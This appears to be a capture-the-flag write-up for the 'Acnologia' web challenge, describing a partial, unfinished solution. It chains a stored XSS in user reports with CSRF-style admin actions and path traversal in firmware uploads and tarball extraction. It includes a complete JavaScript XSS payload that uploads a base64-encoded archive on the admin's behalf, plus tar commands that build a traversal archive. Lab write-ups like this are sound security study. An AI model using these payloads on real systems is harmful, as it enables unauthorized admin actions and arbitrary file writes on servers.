


# [Web] Acnologia

Disclaimer: we did not finish this challenge, but we still want to document our thought process in the resolution. Solutions can be found [here](https://gore-ez-knee.github.io/posts/htb-ca-2022-writeup-table/)

---

Acnologia Portal is an application which allows admins to upload firmware, and users to report problem on those firmware.

As usual, whenever some input is user-provided and parsed by an elevated user, this calls for an XSS. Either to steal a cookie if `HTTP only` is not enabled, or as CSRF, is CSRF tokens are not in use. In this case cookies are using `HTTP only`: we cannot steal sessions.

However the source code is provided, and we can perform actions on behalf of the admin from our Javascript input.

The admin needs to upload a file to the `/api/firmware/upload` endpoint.



This will be handled by the `extract_firmware` function. This function will extract a `.tar.gz` file from the `/tmp` folder, into a randomly created directory in the web root.



This function is vulnerable to path traversal in both:

 - the upload file: we can use a file name such as `../../../../app/test.txt`
 - the archive extract: content of the tarball can be `../../../../flag.txt`

To sum up:

 - register a user
 - login as the user
 - create a Javacript for the admin to upload a firmware. Firmware can either be any file, put wherever we can write, or a `.tar.gz`, containing files that locate outside the web root after extraction

Here is the Javascript for the XSS: from any registered user to create a report, for the admin to visit. This allows us to upload any base64 encoded file (instead of plain binary), on behalf of the admin:

```
<script>
    function b64_to_bytearray(b64str) {
        var byteCharacters = atob(b64str);
        var byteArrays = [];
        var sliceSize = 512;

        for (let offset = 0; offset < byteCharacters.length; offset += sliceSize) {
            const slice = byteCharacters.slice(offset, offset + sliceSize);
            const byteNumbers = new Array(slice.length);
            for (let i = 0; i < slice.length; i++) {
                byteNumbers[i] = slice.charCodeAt(i);
            }
            const byteArray = new Uint8Array(byteNumbers);
            byteArrays.push(byteArray);
        }

        return byteArrays;
    }

function upload_firmware(file, content) {
    var uri = "/api/firmware/upload";
    xhr = new XMLHttpRequest();
    xhr.open("POST", uri, true);
    xhr.withCredentials = "true";
    var formData = new FormData();
    var exploit_b64 = content
    var exploit_tgz = b64_to_bytearray(exploit_b64);
    var blob = new Blob(exploit_tgz, {type: "application/gzip"});
    formData.append("file", blob, file);
    xhr.send(formData);
}

// base64 < file.tgz | tr -d "\n"
setTimeout(upload_firmware("../../../lol.tgz", "H4sIAAAAAAAAA+3RMQ7DIAxAUY7CCYghJjlPlnZBQkqJlOPXyZih7cIQ9b/FSHgA/VLL4DoTM+d8TnOd5zlq0qjjLGp7UUadnM+9H3bYXm1ZvXdrre3T3rf7myrWP4ThUZZnaHufHx6BJ9Uf+idRSdY/JbH+0uU1F3/eHwAAAAAAAAAAAAAAAMB9vQEbwhL2ACgAAA=="),5000);
</script>
```

The path traversal with a tarball is created with the `transform` option:

```
touch flag.txt
tar --transform "s|flag.txt|../../flag.txt|" -cvzf flag.tgz flag.txt
base64 < flag.tgz | tr -d "\n"
```
